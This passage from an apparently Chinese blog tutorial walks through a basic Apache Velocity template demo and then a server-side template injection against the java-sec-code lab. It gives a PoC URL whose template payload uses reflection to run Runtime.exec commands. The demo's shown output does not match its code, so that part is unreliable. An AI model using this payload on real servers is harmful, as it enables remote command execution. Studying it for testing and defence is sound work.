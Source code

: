 ```
        context.put("name", "Rai4over");
        context.put("project", "Velocity");


        Template template = velocityEngine.getTemplate("test.vm");
        StringWriter sw = new StringWriter();
        template.merge(context, sw);
        System.out.println("final output:" + sw);
    }
}
```

模板文件：src/main/resources/test.vm



```
Hello World! The first velocity demo.
Name is $name.
Project is $project
```

输出结果：



```
final output:
Hello World! The first velocity demo.
Name is Victor Zhang.
Project is Velocity
java.lang.UNIXProcess@12f40c25
```

通过 VelocityEngine 创建模板引擎，接着 velocityEngine.setProperty 设置模板路径 src/main/resources、加载器类型为file，最后通过 velocityEngine.init() 完成引擎初始化。

通过 VelocityContext() 创建上下文变量，通过put添加模板中使用的变量到上下文。

通过 getTemplate 选择路径中具体的模板文件test.vm，创建 StringWriter 对象存储渲染结果，然后将上下文变量传入 template.merge 进行渲染。

[![img](https://gitee.com/Cralwer/typora-pic/raw/master/images/1344396-20200907173719066-1030164230.png)](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200907173719066-1030164230.png)

这里使用java-sec-code里面的SSTI代码：

[![img](https://gitee.com/Cralwer/typora-pic/raw/master/images/1344396-20200907191011269-128540012.png)](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200907191011269-128540012.png)

poc：



```
http://127.0.0.1:8080/ssti/velocity?template=%23set(%24e=%22e%22);%24e.getClass().forName(%22java.lang.Runtime%22).getMethod(%22getRuntime%22,null).invoke(null,null).exec(%22calc%22)$class.inspect("java.lang.Runtime").type.getRuntime().exec("sleep 5").waitFor() //延迟了5秒
```

[![img](https://gitee.com/Cralwer/typora-pic/raw/master/images/1344396-20200907192034956-1485346370.png)](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200907192034956-1485346370.png)
